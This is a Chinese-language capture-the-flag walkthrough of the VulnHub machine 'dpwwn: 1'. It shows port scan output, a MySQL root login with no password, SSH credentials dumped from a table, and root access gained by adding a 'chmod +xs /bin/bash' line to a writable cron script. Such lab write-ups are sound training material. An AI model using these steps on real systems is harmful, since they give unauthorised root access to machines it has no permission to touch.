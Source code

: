 # dpwwn: 1

2024-6-12 https://www.vulnhub.com/entry/dpwwn-1,342/

difficulty: Easy

## IP

101.1.0.168

## Scan

Open Port -> 22,80,3306

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 c1d3be39429d5cb4952c5b2e20590e3a (RSA)
|   256 434ac610e7177da0c0c376881d43a18c (ECDSA)
|_  256 0ecce3e1f78773a10347b9e2cf1c9315 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MySQL 5.5.60-MariaDB
| mysql-info:
|   Protocol: 10
|   Version: 5.5.60-MariaDB
|   Thread ID: 5
|   Capabilities flags: 63487
|   Some Capabilities: SupportsTransactions, ConnectWithDatabase, Support41Auth, IgnoreSigpipes, Speaks41ProtocolOld, SupportsLoadDataLocal, InteractiveClient, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, FoundRows, LongColumnFlag, ODBCClient, SupportsCompression, IgnoreSpaceBeforeParenthesis, LongPassword, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: $Z{~&>E#y^J8yxoFP<||
|_  Auth Plugin Name: mysql_native_password
```

优先看 80 web 服务，gobuster 扫描出一个 http://101.1.0.168/info.php 页面，没看到什么信息，其他页面也没有。

看看 mysql 吧，尝试看看空密码或者弱密码能不能登陆。

结果空密码就能进入， mysql -u root -h 101.1.0.168 -p 直接 2 个回车，不用输入密码。

发现 ssh 库中有 users 表：

```
MariaDB [ssh]> select * from users;
+----+----------+---------------------+
| id | username | password            |
+----+----------+---------------------+
|  1 | mistic   | testP@$$swordmistic |
+----+----------+---------------------+
1 row in set (0.006 sec)
```

尝试用此凭据进行 ssh 登陆，登陆成功。

进行系统枚举，寻找提权路径。

cat /etc/crontab 中发现以 root 身份每 3 分钟调用一次 /home/mistic/logrot.sh， 这个文件可以被修改，所以直接在文件中添加一行执行代码：

```
chmod +xs /bin/bash
```

等待 3 分钟，/bin/bash 就变成了 suid 权限：

```
[mistic@dpwwn-01 ~]$ /bin/bash -p
bash-4.2# id
uid=1000(mistic) gid=1000(mistic) euid=0(root) egid=0(root) 组=0(root),1000(mistic) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.2# cd /root
bash-4.2# ls
anaconda-ks.cfg  dpwwn-01-FLAG.txt
bash-4.2# cat dpwwn-01-FLAG.txt

Congratulation! I knew you can pwn it as this very easy challenge.

Thank you.

64445777
6e643634
37303737
37373665
36347077
776e6450
4077246e
33373336
36359090
```
